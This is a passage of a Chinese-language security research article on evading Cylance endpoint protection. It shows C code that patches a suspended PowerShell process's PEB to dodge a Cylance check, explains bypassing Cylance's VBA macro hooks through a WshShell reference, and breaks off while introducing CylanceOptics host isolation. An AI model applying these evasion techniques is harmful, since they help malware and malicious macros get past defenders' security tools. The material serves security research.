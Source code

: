 ```
    // Get thread address
    context.ContextFlags = CONTEXT_FULL | CONTEXT_DEBUG_REGISTERS;
    GetThreadContext(pi.hThread, &amp;context);
    // Resolve GS to linier address
    printf("[*] Querying process for PEB addressn");
    ntpi = (NtQueryInformationProcess2)GetProcAddress(LoadLibraryA("ntdll.dll"), "NtQueryInformationProcess");
    ntpi(pi.hProcess, ProcessBasicInformation, &amp;pbi, sizeof(pbi), &amp;retLen);
    ReadProcessMemory(pi.hProcess, pbi.PebBaseAddress, &amp;pebLocal, sizeof(PEB), &amp;bytesRead);
    printf("[*] Base address of Powershell.exe found to be %pn", pebLocal.Reserved3[1]);

    // Update the PDB path in memory to avoid triggering Cylance check
    printf("[*] Updating PEB in memoryn");
    updatePdb(pi.hProcess, (char*)pebLocal.Reserved3[1]);
    // Finally, resume execution and spawn Powershell
    printf("[*] Finally, resuming thread... here comes Powershell :Dn");
    ResumeThread(pi.hThread);
`}`

```

代码运行效果参考[此处视频](https://youtu.be/fkkm5fcJ5Ew)。



## 六、绕过Office宏

前面讨论过，Cylance中实现了基于Office的VBA宏防护机制（除了缺少Excel 4.0支持之外）。如果我们仔细检查这种防护，可以看到Cylance采用了前文类似的一些hook，在VBA运行时中添加了一些检查操作。在这种情况下，Cylance会将hook添加到`VBE7.dll`中，后者负责提供`Shell`或`CreateObject`之类的函数。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0173db3e0e06bd39f0.png)

然而我们发现，如果`CreateObject`成功调用，那么Cylance就不会继续检查COM对象。这意味着如果我们找到方法成功初始化目标COM对象，那么就可以绕过Cylance的保护机制。

一种方法就是简单添加VBA项目的引用即可。比如，我们可以添加关于“Windows Script Host Object Mode”的引用：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t014d54fe1830e46340.png)

这样就可以在我们的VBA中访问`WshShell`对象，绕过被hook的`CreateObject`调用。一旦完成该操作后，我们就可以使用常见的Office宏技巧：

[![](https://p1.ssl.qhimg.com/t010731eec8c3ff0bb1.png)](https://p1.ssl.qhimg.com/t010731eec8c3ff0bb1.png)



## 七、绕过CylanceOptics隔离

虽然我们并没有特别关注CylanceOptics，但还是应该了解一下它所提供的有趣功能。

当安全人员检测到网络中存在可疑活动时，许多EDR解决方案可以将某台主机域其他网络隔离。在这种场景下，如果攻击者使用该主机作为入侵网络的立足点，那么这种方法可以有效消除攻击者对网络的影响。

CylanceOptics也支持这种隔离功能，通过web接口提供一个Lockdown选项：
